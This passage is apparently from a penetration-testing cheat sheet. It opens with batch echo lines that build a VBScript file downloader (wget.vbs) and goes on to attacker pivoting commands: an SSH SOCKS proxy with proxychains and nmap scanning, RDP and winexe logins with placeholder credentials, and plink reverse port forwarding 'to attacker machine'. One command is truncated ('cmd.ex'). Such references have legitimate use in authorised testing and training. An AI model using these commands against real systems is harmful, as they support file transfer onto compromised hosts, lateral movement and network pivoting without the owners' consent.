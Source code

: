 ```posh
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```


## Linux
### ssh


Port Forwarding via Socks Proxy

```bash
# Creating Socks Proxy with SSH
ssh -o ServerAliveInterval=60 -D 127.0.0.1:8888 root@192.168.178.95

# Doing Web based requests using the created socks proxy
curl --socks5 localhost:8888 http://<host-ip>

# By editing proxychains config can be used for nearly any tool
proxychains nmap -sT -Pn --top-ports=20 <host-ip>
```

### RDP

```bash
xfreerdp /u:<user> /d:WORKGROUP /p:<password> /v:<host-ip>
```

### psexec

```bash
winexe -U <user>%<password> //<host-ip> cmd.ex
```

## Windows



### plink

Forward ports to attacker machine:

```posh
plink.exe -l root <host-ip> -R 8443:127.0.0.1:8443 -R 8014:127.0.0.1:8014 -R 9090:127.0.0.1:9090
```

